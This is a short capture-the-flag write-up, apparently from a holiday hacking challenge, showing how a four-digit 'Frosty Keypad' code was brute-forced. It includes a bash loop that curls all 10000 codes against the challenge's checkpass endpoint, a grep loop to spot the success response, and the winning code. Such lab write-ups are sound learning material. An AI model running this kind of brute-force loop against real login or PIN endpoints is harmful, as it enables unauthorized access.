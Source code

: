 # Frosty Keypad

Looped through all codes:

```
cd /tmp;
for i in $(seq -f "%04g" 0 9999); do curl "https://keypad.elfu.org/checkpass.php?i=$i&resourceId=d3674df0-8e3e-452a-a467-b519a2e4cc19" > $i.txt ; done
```

Since the wrong responses return a JSON with `success: false`; I grepped `true`:
Read the code:

```
while true ; do ls *.txt -l | wc -l ; grep true *.txt ; sleep 1; done
```

After some minutes, the output was:


```
10000
7331.txt:{"success":true,"resourceId":"d3674df0-8e3e-452a-a467-b519a2e4cc19","hash":"dbeb5e3164ac5d4802018f80289d0f2622a127ce1423f469fe94446207808833","message":"Valid  Code!"}
```

Enter 7331 in the pad and get in!
